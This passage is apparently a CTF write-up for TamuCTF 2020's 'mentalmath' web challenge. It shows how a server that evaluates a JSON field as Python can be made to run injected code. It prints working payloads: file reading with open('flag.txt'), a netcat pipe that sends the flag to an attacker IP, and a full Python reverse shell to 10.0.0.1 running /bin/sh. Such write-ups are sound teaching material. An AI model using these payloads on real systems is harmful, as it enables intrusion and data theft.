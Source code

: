 we get no error, as if the **#** symbol is interpreted as a comment.
Digging further we can discover that there is an endpoint to /admin which gives us the classic Django admin login page, which lets us think we are in front of some sort of web application hosted by flask in this case.
![djangologin](/assets/img/TamuCTF_2020/mentalmath_1.png)

Lets try to break it. Whith a payload like below we get an 500 Server Error. Hmm, seems like the server is naively **eval**uating our input :

```json
{
    "problem" : "1 + abc",
    "answer" : "2"
}
```

What happens if we try to read the flag using python code ?

```json
{
    "problem" : "open('flag.txt','r').read()#",
    "answer" : "1",
}
```

```json
{"correct": true, "problem": "29 * 53"}
```

We get a correct answer, interesting. Lets ensure we are reading the flag by trying to read a random non existent file

```json
{
    "problem" : "open('flag123.txt','r').read()#",
    "answer" : "1",
}
```

With this payload the server responds with an 500, as expected.
From this point on there are several solutions.

- You could easily listen on a port with netcat and pipe the flag :

```json
{
    "problem" : "__import__('os').popen('cat flag.txt | nc <attacker-ip> <attacker-port>')",
    "answer" : "1",
}

```

- A more complicated solution would be catching a reverse shell using something like :

```json
{
    "problem" : "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);",
    "answer" : "1",
}

```
